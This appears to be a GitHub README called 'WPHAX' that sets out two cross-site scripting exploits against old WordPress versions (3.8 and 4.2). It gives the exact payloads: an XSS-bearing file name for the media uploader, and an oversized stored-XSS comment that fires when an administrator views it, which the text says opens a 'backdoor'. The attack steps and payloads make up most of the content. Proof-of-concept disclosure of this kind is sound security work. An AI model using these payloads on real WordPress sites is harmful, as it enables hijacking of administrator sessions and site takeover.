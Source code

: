 # WPHAX 

## **Exploit 1**
WP Version used: **3.8**
**Description:**
"Upload media" section can be hacked with **XSS**.

**Steps:**

* Go to **Upload Media** menu.
* Upload a file which is more than **20MB** with *"file<img src=x onerror=alert("hacked")>.png"* name.

![Our user is author, so can upload media](https://i.imgur.com/z6pj5HV.png)
![Upload Media](https://i.imgur.com/Ad0wZIt.png)
![XSS](https://i.imgur.com/aRp2L62.png)

## **Exploit 2**
WP Version used: **4.2**
**Description:**
Stored **XSS** can be executed with malicious comment.

**Steps:**

* Leave a comment:

`<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>`
* Wait for admin to view the comment on the page
* Backdoor is now available

![Leave the comment](https://i.imgur.com/VVD3ZqO.png)
![View as admin](https://i.imgur.com/wwVBiiG.png)

